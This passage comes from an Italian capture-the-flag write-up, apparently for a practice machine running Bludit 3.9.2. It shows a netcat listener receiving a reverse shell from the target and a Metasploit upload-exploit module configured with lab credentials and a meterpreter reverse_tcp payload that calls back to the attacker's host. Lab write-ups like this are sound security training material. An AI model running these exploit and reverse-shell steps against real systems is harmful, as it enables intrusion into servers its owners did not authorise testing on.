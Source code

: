 otteniamo cosi la nostra shell.
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.191] 55730
bash: cannot set terminal process group (1285): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
```

### Metasploit

Come visto in precedenza abbiamo  [questo](https://www.exploit-db.com/exploits/47699)modulo di metasploit che fa al caso nostro ma per utilizzarlo dobbiamo avere prima la password per l'utente fergus.

Quindi apriamo metasploit e lo settiamo come segue:

```shell-session
msf6 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2



View the full module info with the info, or info -d command.
```

